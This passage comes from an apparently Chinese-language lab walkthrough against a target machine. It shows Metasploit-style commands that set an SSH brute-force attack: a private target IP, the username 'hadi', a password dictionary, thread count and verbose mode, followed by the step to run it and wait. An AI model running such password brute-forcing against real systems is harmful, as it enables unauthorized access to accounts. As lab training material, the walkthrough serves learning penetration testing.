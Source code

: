 13. 编辑靶机IP、SSH用户名、密码字典、线程等参数：

``` bash
> set rhosts 192.168.1.113
> set username hadi
> set pass_file /root/Desktop/common-password/hadi.txt
> set threads 5
> set verbose true
> run
```

![](./1052/16.PNG)

14. 确认参数无误，开始run，等结果：

![](./1052/17.PNG)
